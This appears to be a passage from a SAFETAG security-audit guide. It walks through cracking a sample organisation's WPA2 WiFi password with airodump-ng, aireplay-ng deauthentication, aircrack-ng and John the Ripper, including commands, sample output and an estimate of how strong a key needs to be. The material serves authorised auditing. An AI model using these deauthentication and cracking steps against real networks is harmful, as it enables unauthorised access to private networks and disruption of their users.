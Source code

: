 An attacker can crack the SampleOrg office’s WPA key in approximately <time> with a short and minimally customized password dictionary containing approximately <number> entries.

**Step 1:** The attacker customizes his WiFi password dictionary, adding phrases related to the subject: organization name, street address, phone number, email domain, wireless network name, etc. Common password fragments are included, as well: qwerty, 12345, asdf and all four-digit dates back to the year 2001, for example, among others. He may then add hundreds or thousands of words (in English and/or other relevant languages).

See the Dictionary Creation example under Preparation for details on password dictionary buidling.

**Step 2:** The attacker would then begin recording all (encrypted) wireless traffic associated with the organization’s access point:

```
$ sudo airodump-ng -c 1 --bssid 1A:2B:3C:4D:5E:6F -w sampleorg_airodump mon0

 CH  1 ][ Elapsed: 12 mins ][ 2012-01-23 12:34 ][ fixed channel mon0: -1                                                   
 BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID                                                         
 1A:2B:3C:4D:5E:6F  -70 100    12345    43210    6   1  12e. WPA2 CCMP   PSK sampleorg                                                         
 BSSID              STATION            PWR   Rate    Lost  Packets  Probes                                                                  
 1A:2B:3C:4D:5E:6F  01:23:45:67:89:01    0    0e- 0e   186    12345
 1A:2B:3C:4D:5E:6F  AB:CD:EF:AB:CD:EF    0    1e- 1      0     1234
 1A:2B:3C:4D:5E:6F  AA:BB:CC:DD:EE:FF  -76    0e- 1      0     1122
 1A:2B:3C:4D:5E:6F  A1:B2:C3:D4:E5:F6  -80    0e- 1      0     4321

wifite is also useful for this step, and claims to automatically de-auth (step 3).

**Step 3:** Next, the auditor forces a wireless client, possibly chosen at random, to disconnect and reconnect (an operation that is nearly always invisible to the user). 

In the example below, AB:CD:EF:AB:CD:EF is the MAC address of a laptop that was briefly disconnected in this way.

$ aireplay-ng -0 1 -a 1A:2B:3C:4D:5E:6F -c AB:CD:EF:AB:CD:EF mon0 

 15:54:48  Waiting for beacon frame (BSSID: 1A:2B:3C:4D:5E:6F) on channel -1
 15:54:49  Sending 64 directed DeAuth. STMAC: [AB:CD:EF:AB:CD:EF] [ 5| 3 ACKs]
```

The goal of this step is to capture the cryptographic handshake that occurs when the targeted client reconnects. Try using different clients if the first one doesn't work, or try (physically) moving around. 

This handshake does not contain the WPA key itself, but once the the complete handshake process has been seen, the auditor (or a potential attacker) can leave the vicinity and run various password cracking tools to try and discover the password. While a complete password cracking tutorial is out of scope for SAFETAG documentation, below are three strategies:

**Step 4:** The auditor attempts to discover the WPA password.

### Using a pre-compilex wordlist called pwdpairs.txt ###

A good wordlist with a few tweaks tends to break most passwords.  Using a collection of all english words, all words from the language of the organization being audited, plus a combination of all these words, plus relevant keywords, addresses, and years tends to crack most wifi passwords.

```bash
    $ aircrack-ng -w pwdpairs.txt -b 1A:2B:3C:4D:5E:6F sampleorg_airodump*.cap
```

### Using a combination of brute forcing, wordlists and roles with John the Ripper (JtR) ###


For WPA captures, John can either feed in to an aircrack process or attach a capture directly.  For captures, you first have to convert the .cap file (from wireshark, wifite, airodump, etc.) to a format that John likes.  The Jumbo version we use has conversion tools for this available: 

```bash
  $wpapcap2john wpa.cap > crackme
  $./john -w:password.lst -fo=wpapsk-cuda crackme 
```

### Brute force, using crunch ###

As a last resort, you can try a direct brute force attack overnight or post-audit to fill in details on key strength.



### Sample Practice ###

For practice on any of these methods, you can use the wpa-Induction.pcap file from http://wiki.wireshark.org/SampleCaptures .

Successful password cracking via piping these into aircrack-ng:

```
 Opening sampleorg_airodump-01.cap
 Reading packets, please wait...
                                 Aircrack-ng 1.1
                    [00:00:05] 9123 keys tested (1876.54 k/s)
                           KEY FOUND! [ sample2012 ]

      Master Key     : 2A 7C B1 92 C4 61 A9 F6 7F 98 6B C1 AB 53 7A 0F 
                       3C AF D7 9A 0C BD F0 4B A2 44 EE 5B 13 94 12 12 

      Transient Key  : A9 C8 AD 47 F9 71 2A C6 55 F8 F0 73 FB 9A E6 1D 
                       23 D9 31 25 5D B1 CF EA 99 2C B3 D7 E5 7F 91 2D 
                       56 25 D5 9A 1F AD C5 02 E3 2C C9 ED 74 55 BA 94 
                       D6 F5 0A D1 3B FB 39 40 19 C9 BA 65 2E 49 3D 14 

      EAPOL HMAC     : F1 DF 09 C4 5A 96 0B AD 83 DD F9 07 4E FA 19 74 
```

The fourth line of the above output provides some useful information about the effectiveness of a strong WPA key. That rate of approximately 2000 keys per second means that a full-on, brute-force attack against a similar-length key that was truly random (and therefore immune to dictionary-based attacks) would take about 70^9 or 20 trillion seconds, which is well over 600,000 years. Or, for those who favor length and simplicity over brevity and complexity, a key containing four words chosen from among the 10,000 most common English dictionary words would still take approximately 150,000 years to crack (using this method on an average laptop).

It is worth noting that an attacker with the resources and the expertise could increase this rate by a factor of a hundred. Using a computer with powerful graphical processing units (GPUs) or a cloud computing service like Amazon’s EC2, it is possible to test 250,000 or more keys per second. A setup like this would still take several lifetimes to guess a strong password, however.

Regardless, the success of this attack against SampleOrg’s wireless network would allow an attacker to bypass all perimeter controls, including the network firewall. Without access to the office LAN, a non-ISP, non-government attacker would have to position himself on the same network as an external staff member in order to exploit any flaws in the organization’s email or file-sharing services. With access to the local network, however, that attacker could begin carrying out Local attacks quite quickly, and from a distance.

With regard to the distance from which an attacker could maintain such access, SampleOrg’s office WiFi network appears to have a relatively strong signal, which extends to the street out front:

<photograph of location>   

<screenshot of WiFi strength>

Figure 1: WiFi signal strength from a nearby location

